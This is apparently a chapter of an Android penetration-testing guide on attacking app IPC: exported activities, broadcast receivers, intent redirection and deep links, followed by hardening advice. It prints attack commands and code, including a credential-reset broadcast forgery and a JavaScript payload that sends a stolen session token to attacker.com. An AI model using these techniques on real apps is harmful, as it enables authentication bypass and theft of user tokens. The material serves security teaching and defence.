


In traditional operating systems, applications execute within isolated user accounts, relying on network sockets, named pipes, or file systems to communicate. Android, however, is architected from the ground up around a structured Inter-Process Communication (IPC) framework mediated by the Linux kernel's **Binder** driver and the **Activity Manager Service (AMS)**.

This architectural modularity allows apps to interact seamlessly, but it also creates the primary client-side attack surface in mobile security. When an application exposes its internal components—Activities, Broadcast Receivers, or Services—without rigorous access controls and input validation, any untrusted third-party application on the device can hijack workflows, bypass authentication gates, steal sensitive tokens, or execute arbitrary code.

In this chapter, we map application attack surfaces using Drozer, exploit exported components via Intent spoofing, dissect the dangerous Intent Redirection ("Confused Deputy") pattern, and demonstrate how unvalidated Deep Links can be weaponized into full Remote Code Execution (RCE).

---

## 1. Android IPC Architecture: The Role of Intents & Binder


*Figure 1: In-process Frida architecture (V8 injection, Interceptor API) and Objection runtime security testing capabilities for live Android apps.*


Every Android application consists of four distinct component building blocks:
1. **Activities**: Graphical user interface screens.
2. **Broadcast Receivers**: Asynchronous listeners for system-wide or app-specific events.
3. **Content Providers**: Structured data interfaces (analyzed in Chapter 4).
4. **Services**: Background execution tasks running without direct UI interaction.

```
+---------------------------------------------------------------------------------+
|                       ANDROID IPC MESSAGE ROUTING                               |
+---------------------------------------------------------------------------------+
|                                                                                 |
|  [ Attacker App / Drozer ]                    [ Vulnerable Target App ]         |
|  UID: u0_a200                                 UID: u0_a145                      |
|         |                                              ^                        |
|         | 1. Craft Malicious Intent                    | 3. Deliver Intent      |
|         v                                              |    to Target Component |
|  +----------------------------------------------------------+                   |
|  |             ActivityManagerService (system_server)       |                   |
|  |             - Resolves component exports                 |                   |
|  |             - Evaluates permissions & protection levels  |                   |
|  +----------------------------------------------------------+                   |
|                               |                                                 |
|                 2. IPC Transaction via Binder Driver                            |
|                    (/dev/binder) across kernel space                            |
+---------------------------------------------------------------------------------+
```

### Explicit vs Implicit Intents

- **Explicit Intents**: Directly name the target component class:
  ```java
  Intent intent = new Intent(context, TargetActivity.class);
  startActivity(intent);
  ```
- **Implicit Intents**: Do not name a specific class; instead, they declare an action, a data URI, or a category, allowing the Android system to resolve which installed application can handle the request:
  ```java
  Intent intent = new Intent(Intent.ACTION_VIEW, Uri.parse("https://target.com/pay"));
  startActivity(intent);
  ```

---

## 2. Mapping the Attack Surface with Drozer

Drozer acts as an untrusted third-party application on the test device, enabling automated enumeration of exported interfaces.

### Identifying Vulnerable Components

Connect to the Drozer console and execute the attack surface summary:

```bash
# Connect host console to Drozer agent
adb forward tcp:31415 tcp:31415
drozer console connect
```

```text
dz> run app.package.attacksurface com.target.app

Attack Surface:
  4 activities exported
  2 broadcast receivers exported
  1 content providers exported
  1 services exported
    is debuggable: false
```

### Understanding `android:exported` & Android 12+ Rules

A component is accessible to external applications if:
1. It explicitly sets `android:exported="true"`.
2. Prior to Android 12 (API level 31), if an `<intent-filter>` was declared on a component without an explicit `android:exported` tag, the Android build system defaulted `android:exported` to **`true`**.

Starting in Android 12, developers are mandated to explicitly declare `android:exported="true"` or `android:exported="false"` for any component containing an intent filter.

---



## 3. Exploiting Exported Activities & Intent Spoofing

Exported activities frequently represent internal screens that the developer assumed could only be reached after passing through an authentication gate (such as a PIN code, password screen, or biometric challenge).

```
[ Normal User Flow ]
App Launch ---> [ Login / PIN Activity ] --(Valid Auth)--> [ User Dashboard Activity ]
                      ^
                      | (Gatekeeper)

[ Attacker Bypass via Drozer / ADB ]
Attacker ----(Explicit Intent via IPC)-------------------> [ User Dashboard Activity ]
                                                            (Bypasses PIN completely!)
```

### Case Study: Bypassing Local Authentication

Inspect the target manifest using Jadx:

```xml
<activity android:name="com.target.app.AuthPinLockActivity" 
          android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>

<!-- Notice: AdminDashboard is exported without permission guards -->
<activity android:name="com.target.app.AdminDashboardActivity" 
          android:exported="true" />
```

Because `AdminDashboardActivity` is exported and does not re-verify whether an active authenticated session exists, any application on the device can launch it directly:

```bash
# Exploiting via Drozer
dz> run app.activity.start --component com.target.app com.target.app.AdminDashboardActivity

# Exploiting directly via ADB Activity Manager
adb shell am start -n com.target.app/com.target.app.AdminDashboardActivity
```

The device screen immediately switches to `AdminDashboardActivity`, completely bypassing the PIN check.

### Injecting Intent Extras

Activities often expect parameters inside their Intent bundle (e.g., username, role, or redirect URL). Drozer allows arbitrary primitives and strings to be passed as extras:

```bash
dz> run app.activity.start \
    --component com.target.app com.target.app.TransferFundsActivity \
    --extra string recipient "attacker_account" \
    --extra float amount 50000.00 \
    --extra boolean is_admin true
```

---

## 4. Exploiting Broadcast Receivers: Sniffing & Injection

Broadcast Receivers listen for system events (such as `BOOT_COMPLETED`, `SMS_RECEIVED`) or application-specific notifications.

```
+---------------------------------------------------------------------------------+
|                        BROADCAST RECEIVER ATTACK VECTORS                        |
+---------------------------------------------------------------------------------+
|                                                                                 |
|  [ Injection Attack ]                                                           |
|  Attacker crafts fake broadcast intent ----> [ Exported Receiver ]              |
|                                              - Triggers unauthorized state      |
|                                              - Initiates background sync/reset  |
|                                                                                 |
|  [ Sniffing Attack ]                                                            |
|  Vulnerable App sends implicit broadcast ---> [ Attacker Sniffing Receiver ]    |
|  (contains session token / OTP in extras)     - Captures plaintext credential   |
+---------------------------------------------------------------------------------+
```

### Enumerating Exported Receivers

```text
dz> run app.broadcast.info -a com.target.app

Package: com.target.app
  com.target.app.receivers.PasswordResetReceiver
    Permission: null
  com.target.app.receivers.BackupSyncReceiver
    Permission: null
```

### Weaponized Broadcast Injection

If an exported receiver performs sensitive state updates without validating the sender, forge the broadcast:

```bash
# Sending malicious broadcast via Drozer
dz> run app.broadcast.send \
    --action com.target.app.ACTION_RESET_CREDENTIALS \
    --component com.target.app com.target.app.receivers.PasswordResetReceiver \
    --extra string user_id "admin" \
    --extra string new_pass "HackedPass123!"

# Sending malicious broadcast via ADB
adb shell am broadcast \
    -a com.target.app.ACTION_RESET_CREDENTIALS \
    -n com.target.app/com.target.app.receivers.PasswordResetReceiver \
    --es "user_id" "admin" \
    --es "new_pass" "HackedPass123!"
```

---

## 5. Intent Redirection: The "Confused Deputy" Attack

Intent Redirection is a severe vulnerability where an exported component acts as an unwitting proxy, forwarding an attacker's Intent to internal, **unexported** components that the attacker could not normally reach.

```
+---------------------------------------------------------------------------------+
|                        INTENT REDIRECTION ATTACK FLOW                           |
+---------------------------------------------------------------------------------+
|                                                                                 |
|  [ Attacker App ]                                                               |
|  Creates nested Intent targeting private, unexported component                  |
|         |                                                                       |
|         | 1. Sends Intent with nested extra: "redirect_intent"                  |
|         v                                                                       |
|  [ Exported Gatekeeper Activity ]                                               |
|  Extracts Parcelable extra without validation:                                  |
|  Intent target = (Intent) getIntent().getParcelableExtra("redirect_intent");    |
|         |                                                                       |
|         | 2. Calls: startActivity(target);                                      |
|         v                                                                       |
|  [ Private Unexported Internal Activity / FileProvider ]                        |
|  Executes privileged action inside the target app's UID context!               |
+---------------------------------------------------------------------------------+
```

### Vulnerable Source Code Pattern

```java
public class ExportedProxyActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        
        // VULNERABLE: Takes an Intent passed as an extra and executes it
        Intent redirect = getIntent().getParcelableExtra("next_intent");
        if (redirect != null) {
            startActivity(redirect);
        }
    }
}
```

### Exploitation via Malicious Client App

An attacker compiles a lightweight helper app on the device to build the nested parcel:

```java
Intent privateTarget = new Intent();
privateTarget.setClassName("com.target.app", "com.target.app.internal.DebugConsoleActivity");
privateTarget.putExtra("execute_cmd", "cat /data/data/com.target.app/shared_prefs/auth.xml");

Intent exploitIntent = new Intent();
exploitIntent.setClassName("com.target.app", "com.target.app.ExportedProxyActivity");
exploitIntent.putExtra("next_intent", privateTarget);

startActivity(exploitIntent);
```

The target application dutifully executes the internal `DebugConsoleActivity`, bypassing all sandbox and component export restrictions.

---

## 6. Deep Links & App Links: Chaining URIs to Remote Code Execution

Modern applications register URI handlers to allow websites, emails, and external apps to link directly into specific app views.

```
+---------------------------------------------------------------------------------+
|                              DEEP LINK MECHANICS                                |
+---------------------------------------------------------------------------------+
|  Custom Scheme:  targetapp://action?param1=value&param2=value                    |
|  App Links:      https://targetapp.com/view?id=123                              |
+---------------------------------------------------------------------------------+
```

### Auditing the Manifest for Deep Link Handlers

In `AndroidManifest.xml`, look for activities with `android.intent.action.VIEW` and `android.intent.category.BROWSABLE`:

```xml
<activity android:name="com.target.app.DeepLinkRouterActivity"
          android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <category android:name="android.intent.category.BROWSABLE" />
        
        <!-- Custom Scheme Definition -->
        <data android:scheme="targetbank" 
              android:host="webview" 
              android:pathPrefix="/load" />
    </intent-filter>
</activity>
```

### Inspecting the Handler Logic in Java

```java
public class DeepLinkRouterActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        
        Uri data = getIntent().getData();
        if (data != null && "targetbank".equals(data.getScheme())) {
            String targetUrl = data.getQueryParameter("url");
            
            Intent intent = new Intent(this, InternalWebBrowser.class);
            intent.putExtra("LOAD_URL", targetUrl);
            startActivity(intent);
        }
    }
}
```

### Chaining Deep Links to RCE

If `InternalWebBrowser` loads `LOAD_URL` into an Android WebView configured with `@JavascriptInterface` (or allowing `file://` access):

1. **The Attacker hosts a malicious web page** (`https://attacker.com/exploit.html`):
   ```html
   <script>
       // Exploit exposed JavascriptInterface to dump tokens or write payload
       if (window.AndroidBridge) {
           var token = window.AndroidBridge.getUserSessionToken();
           fetch('https://attacker.com/log?t=' + encodeURIComponent(token));
       }
   </script>
   ```

2. **The Attacker triggers the deep link via ADB, browser link, or phishing SMS**:
   ```bash
   adb shell am start -W \
       -a android.intent.action.VIEW \
       -d "targetbank://webview/load?url=https://attacker.com/exploit.html"
   ```

3. **Execution**:
   - The Android system evaluates the scheme (`targetbank://`).
   - `DeepLinkRouterActivity` resolves the URI, extracts the `url` query parameter without domain whitelisting, and launches the internal browser.
   - The internal browser executes the attacker's JavaScript, stealing the session token or triggering native bridge code.

---

## 7. Hardening & Defensive Engineering

To prevent IPC exploitation:

1. **Default to Private**: Explicitly set `android:exported="false"` on all activities, receivers, and services unless public access is strictly required.
2. **Enforce Signature Permissions**: If components must communicate across apps developed by the same organization, guard them with `signature` permissions:
   ```xml
   <permission android:name="com.target.app.CUSTOM_PERMISSION"
               android:protectionLevel="signature" />
   ```
3. **Sanitize Nested Intents**: Never pass raw `Parcelable` Intents directly to `startActivity()`. Explicitly validate the target component name and package against a strict whitelist.
4. **Strict Deep Link Domain Whitelisting**: Verify that incoming URLs belong to trusted corporate domains before passing them to WebViews or background networking engines.

---

## 8. Chapter Summary & Next Steps

In this chapter, we covered the exploitation of Android's core messaging architecture:
- Mapped attack surfaces using Drozer to identify unprotected exported components.
- Bypassed authentication gates via direct Activity Intent spoofing.
- Injected forged broadcasts to manipulate background application states.
- Traced the mechanics of Intent Redirection ("Confused Deputy") attacks.
- Chained unvalidated Deep Links into arbitrary URL rendering and WebView exploitation.

In **Chapter 4**, we will dismantle the most critical data storage interface in Android: exploiting **Content Providers** via SQL Injection, Path Traversal, and arbitrary file extraction.

